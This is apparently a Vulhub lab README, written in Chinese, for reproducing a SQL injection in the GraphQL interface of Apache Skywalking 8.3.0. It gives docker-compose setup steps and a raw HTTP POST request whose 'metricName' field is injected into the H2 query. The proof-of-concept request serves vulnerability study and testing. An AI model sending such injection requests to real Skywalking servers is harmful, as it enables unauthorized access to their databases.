

# Apache Skywalking 8.3.0 SQL注入漏洞

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 漏洞环境

执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

我们使用graphiql的桌面APP发送如下graphql查询：



可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

更加深入的利用，大家可以自行研究，并欢迎将文档提交到Vulhub中。
